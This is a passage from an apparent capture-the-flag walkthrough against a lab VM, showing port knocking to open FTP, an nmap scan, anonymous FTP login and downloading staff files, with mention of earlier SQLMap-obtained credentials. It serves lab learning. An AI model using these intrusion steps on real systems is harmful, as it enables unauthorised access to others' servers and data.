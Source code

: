     This meant that in order to open port 21 (FTP), I have to send TCP SYN packets to port 1000 followed by port 2000 within 5 seconds, which can be achieved by using a [Port Knocking](https://wiki.archlinux.org/title/Port_knocking) tool. My preferred [Port Knocking](https://wiki.archlinux.org/title/Port_knocking) tool of choice is [KnockIt](https://github.com/eliemoutran/KnockIt). Using the command `knockit 192.168.233.135 1000 2000` to conduct [Port Knocking](https://wiki.archlinux.org/title/Port_knocking) & doing a [NMAP](https://github.com/nmap/nmap) right after gives the following output:

    ```
    Nmap scan report for potatos.potato-school.com (192.168.233.137)
    Host is up (0.00076s latency).
    Not shown: 997 filtered tcp ports (no-response)
    PORT    STATE SERVICE
    21/tcp  open  ftp
    80/tcp  open  http
    443/tcp open  https
    ```

    As port 21 (ftp) is open, the [Port Knocking](https://wiki.archlinux.org/title/Port_knocking) was a success.

19) Since the ftp port is open, I decided to try to access the Pootato VM via the ftp port. Howevever, attempts to login via ftp with the student credentials obtained from the output of [SQLMap](https://github.com/sqlmapproject/sqlmap) was unsuccessful, I decided to find other ways to login via ftp. Searching online, I found out that it might be possible to log into the ftp server as an `anonymous` user, which I attempted to do so & gained access.

    ```
    ┌──(ctf)─(kali㉿kali)-[~]
    └─$ ftp 192.168.233.137
    Connected to 192.168.233.137.
    220 (vsFTPd 3.0.3)
    Name (192.168.233.137:kali): anonymous
    230 Login successful.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> 
    ```

    Upon gaining access, as I know that there are 2 types of ftp connection modes, I decided to go with the passive mode & explore the files in the ftp server. Using the `ls` command, I can see that the `Drafts` directory is available. Accessing the `Drafts` directory & using the `ls` command, it showed that the following files were present in the `Drafts` directory: `Encrypted_Attachment.dat` & `staff_email_draft.txt`. Using the `get` command, I downloaded the files into my [Kali Linux](https://www.kali.org/) machine.

    ```
    ftp> passive
    Passive mode: off; fallback to active mode: off.
    ftp> cd Drafts
    250 Directory successfully changed.
    ftp> ls
    200 EPRT command successful. Consider using EPSV.
    150 Here comes the directory listing.
    -r-xr-xr-x    1 119      128            58 Nov 05 17:20 Encrypted_Attachment.dat
    -r-xr-xr-x    1 119      128           759 Nov 05 09:18 staff_email_draft.txt
    226 Directory send OK.
    ftp> get Encrypted_Attachment.dat
    local: Encrypted_Attachment.dat remote: Encrypted_Attachment.dat
    200 EPRT command successful. Consider using EPSV.
    150 Opening BINARY mode data connection for Encrypted_Attachment.dat (58 bytes).
    100% |**********************************************************|    58        2.78 KiB/s    00:00 ETA
    226 Transfer complete.
    58 bytes received in 00:00 (2.60 KiB/s)
    ftp> get staff_email_draft.txt
    local: staff_email_draft.txt remote: staff_email_draft.txt